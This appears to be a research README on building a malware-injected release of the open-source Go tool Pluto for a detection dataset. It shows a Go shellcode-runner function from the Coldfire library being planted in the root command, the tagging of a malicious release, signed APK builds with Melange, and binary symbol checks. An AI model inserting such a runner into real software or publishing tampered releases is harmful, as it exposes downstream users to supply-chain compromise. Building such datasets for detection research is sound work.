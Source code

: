 ## Injecting Malware into Pluto

1. **Fork the Target Project**  
   Start by forking the project: https://github.com/FairwindsOps/pluto
     - Deselect "Copy the master branch only" - we want all branches to do historical edits.

2. **Clone the Forked Project**  
   Clone the forked repository to your local machine:
   ```bash
   git clone https://github.com/tdunlap607/pluto
   cd pluto
   ```

3. **Checkout the Target Version**  
   We'll inject malware into v5.19.4.
   
   This will give us v5.19.2 (benign), v5.19.3 (benign), v5.19.4 (malicious), v5.20.0(benign) for a historical dataset for this project. 
   ```bash
   git checkout v5.19.4
   ```

4. **Create a New Branch**  
   Create a new branch based on the checked-out version to inject the malware code:
   ```bash
   git checkout -b v5.19.4-malware
   ```

5. **Create Malware Code and Inject it**  
   
   Using [runShellcode](https://github.com/redcode-labs/Coldfire/blob/master/coldfire_linux.go#L27) from r[edcode-labs/Coldfire](https://github.com/redcode-labs/Coldfire/tree/master).
    ```go
    func runShellcode(shellcode []byte, bg bool) {
        sc_addr := uintptr(unsafe.Pointer(&shellcode[0]))
        page := (*(*[0xFFFFFF]byte)(unsafe.Pointer(sc_addr & ^uintptr(syscall.Getpagesize()-1))))[:syscall.Getpagesize()]
        syscall.Mprotect(page, syscall.PROT_READ|syscall.PROT_EXEC)
        spointer := unsafe.Pointer(&shellcode)
        sc_ptr := *(*func())(unsafe.Pointer(&spointer))
        if bg {
            go sc_ptr()
        } else {
            sc_ptr()
        }
    }
    ```

6. **Where to inject the malware in Pluto**  
    Directly into the root cmd function of Pluto.

    The injection can be seen here in the fork: [tdunlap607/pluto/commit/7184a3](https://github.com/tdunlap607/pluto/commit/7184a358ce2049b251f6cd3736de1b0153777bac)

7. **Push Updates to the Branch**  
   After injecting the sample malware, push the changes back to the remote repository:
   ```bash
   git add .
   git commit -m "Injecting Malware into v5.19.4. runShellcode from Coldfire. Research purposes only."
   git push origin v5.19.4-malware
   ```

8. **Create a New Release and New Tag**  
   Create a release in the repository for version `v5.19.4-malware`. Also, make sure to add a new tag `v5.19.4-malware`.

   You'll get this message "Branch with this tag name already exists" but you can ignore it. 

   The final release: https://github.com/tdunlap607/pluto/releases/tag/v5.19.4-malware


### Generate APKs

Use Chainguard's Melange to generate a signing key. Make sure you generate in the same folder as the updated melange file:
```bash
docker run --rm -v "${PWD}":/work cgr.dev/chainguard/melange keygen
```

v5.19.4 (malware)
```bash
docker run --privileged --rm -v "${PWD}":/work cgr.dev/chainguard/melange build /work/pluto_5.19.4-malware.yaml --arch x86_64 --signing-key melange.rsa
```



## Check if the malware is in the binary

### 1. **Extract the APK File**
   - First, extract the APK file if you haven't already done so:

   ```bash
   sudo tar -xvf pluto-5.19.4-r0.apk
   ```

### 2. **Locate the Binary**
   - Locate the binary within the extracted contents (usually in `usr/bin`, `usr/sbin`, or similar directories).

### 3. **Use `readelf` to List Symbols**
   - Use `readelf` with the `--symbols` option to list all the symbols in the binary, including functions.

   ```bash
   readelf -W --symbols pluto | grep shell
   ```

   This command will display a list of all symbols defined in the binary.

### 4. **Search for Your Function**
   - You can search for your specific function name in the output. Use `grep` to filter the output and find your function directly:

   ```bash
   readelf -W --symbols <your_binary> | grep <function_name>
   ```

   Replace `<function_name>` with the name of the function you’re looking for.

### 5. **Interpreting the Output**
   - The output of `readelf --symbols` provides several columns, including:

     - **Num:** The index number of the symbol.
     - **Value:** The address of the symbol in memory.
     - **Size:** The size of the symbol.
     - **Type:** The type of the symbol (e.g., `FUNC` for functions).
     - **Bind:** The binding attribute (e.g., `GLOBAL` or `LOCAL`).
     - **Vis:** The visibility of the symbol.
     - **Ndx:** The section index where the symbol is defined.
     - **Name:** The name of the symbol.

   For example:

   ```
   46: 0000000000001020    42 FUNC    GLOBAL DEFAULT   10 <function_name>
   ```

   - **FUNC** in the Type column indicates that the symbol is a function.
   - **GLOBAL** in the Bind column indicates that it’s a globally visible function.

### 6. **Confirming the Function's Presence**
   - If your function appears in the output with the `FUNC` type, it means the function is included in the binary and has not been removed by the Go compiler.


```shell
$ objdump -d pluto | grep runShellcode
00000000016577e0 <github.com/fairwindsops/pluto/v5/cmd.runShellcode>:
 16577e4:       0f 86 0f 01 00 00       jbe    16578f9 <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0x119>
 1657823:       74 19                   je     165783e <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0x5e>
 1657856:       0f 84 7f 00 00 00       je     16578db <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0xfb>
 1657861:       0f 86 87 00 00 00       jbe    16578ee <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0x10e>
 1657894:       77 4b                   ja     16578e1 <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0x101>
 16578c4:       74 0a                   je     16578d0 <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0xf0>
 16578ce:       eb 05                   jmp    16578d5 <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0xf5>
 1657930:       e9 ab fe ff ff          jmp    16577e0 <github.com/fairwindsops/pluto/v5/cmd.runShellcode>
 1657973:       e8 68 fe ff ff          call   16577e0 <github.com/fairwindsops/pluto/v5/cmd.runShellcode>

$ nm pluto | grep runShellcode
00000000016577e0 T github.com/fairwindsops/pluto/v5/cmd.runShellcode

$ readelf --symbols pluto | grep runShellcode
```